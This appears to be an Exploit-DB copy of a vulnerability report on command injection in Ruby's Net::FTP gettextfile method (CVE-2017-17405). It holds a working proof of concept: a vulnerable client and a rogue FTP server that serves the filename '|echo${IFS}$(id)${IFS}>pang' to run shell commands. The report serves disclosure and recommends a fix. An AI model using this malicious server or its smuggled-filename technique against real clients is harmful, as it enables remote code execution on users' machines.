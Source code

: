 While using NET::Ftp I realised you could get command execution through "malicious" file names.

The problem lies in the `gettextfile(remotefile, localfile = File.basename(remotefile))` method.
When looking at the source code, you'll note:

```
def gettextfile(remotefile, localfile = File.basename(remotefile),
                &block) # :yield: line
  f = nil
  result = nil
  if localfile
    f = open(localfile, "w") # Vulnerable code here. open("| os command","w")
  elsif !block_given?
    result = String.new
  end
```

The `localfile` value will trigger command execution if the value is `| os command`. In general use, most users would likely provide their own localfile value and would not rely on the default of `File.basename(remotefile)`; however, in some situations, such as listing and downloading all files in a FTP share, the remotefile value would be controlled by the remote host and could thus be manipulated into causing RCE. Since the file path is simply a string returned by the server (either `ls -l` style for the `LIST` command, or filenames for `NLIST`), there is no need/guarantee that filename will be a valid filename.

I have attached a sample server that can be used to trigger this vulnerability, as well as a sample client which is vulnerable.

## Usage:
Change the `host` and `port` values in both //ftpserver.rb// and //client.rb//

Start the server: `ruby ftpserver.rb`
Run the client: `ruby client.rb`

Observe that a new file has been created in the CWD of the //client.rb//. The file will be called `pang` and contain the output of the `id` command. As seen in screenshot1.png

The provided attack example is a little contrived and assumes the user is accepting the file names provided by the server, rather than their own. However, since there is no clear indication in the documentation or an expectation that filenames could lead to RCE, users may be caught unaware. It would probably be best to not use `open` in NET::Ftp, but rather something like `File.open`, maintaining both expected behaviour and security.

## Impact
Remote code execution through command injection. As a user of the NET::Ftp is expecting normal file creation behaviour, they might not be sanitising file paths.

--cilent.rb--
```
require 'net/ftp'
host = '172.17.0.4'
port = 2121

Net::FTP.const_set('FTP_PORT',port)
Net::FTP.open(host) do |ftp|
  ftp.login
  fileList = ftp.nlst('*')
  fileList.each do |file|
        ftp.gettextfile(file)
  end
end
```
--cilent.rb--

- - -

--ftpserv.rb--
```
require 'socket'
host = '172.17.0.4'
port = 2121
hostsplit = host.tr('.',',')

server = TCPServer.new port

loop do
  Thread.start(server.accept) do |client|
    client.puts "220 Attack FTP\r\n"
    r = client.gets
	puts r
	client.puts "331 password please - version check\r\n"
    r = client.gets
	puts r
	client.puts "230 User logged in\r\n"
    r = client.gets
	puts r
	client.puts "230 more data please!\r\n"
    r = client.gets
	puts r
	client.puts "230 more data please!\r\n"
    r = client.gets
	puts r

	wait = true
    psv = Thread.new do
		pserver = TCPServer.new 23461
		Thread.start(pserver.accept) do |pclient|
            while wait do
            end
			pclient.puts "|echo${IFS}$(id)${IFS}>pang\r\n"
			pclient.close
		end
    end

    sleep 1

	client.puts "227 Entering Passive Mode ("+hostsplit+",91,165)\r\n"
    r = client.gets
	puts r

    psv.join

	client.puts "150 Here comes the directory listing.\r\n"

    wait = false

	client.puts "226 Directory send OK.\r\n"
    r = client.gets
	puts r
	client.puts "221 goodbye\r\n"
    client.close
  end
end
```
--ftpserv.rb--

- - -
E-DB Note: https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/
E-DB Nte: https://hackerone.com/reports/294462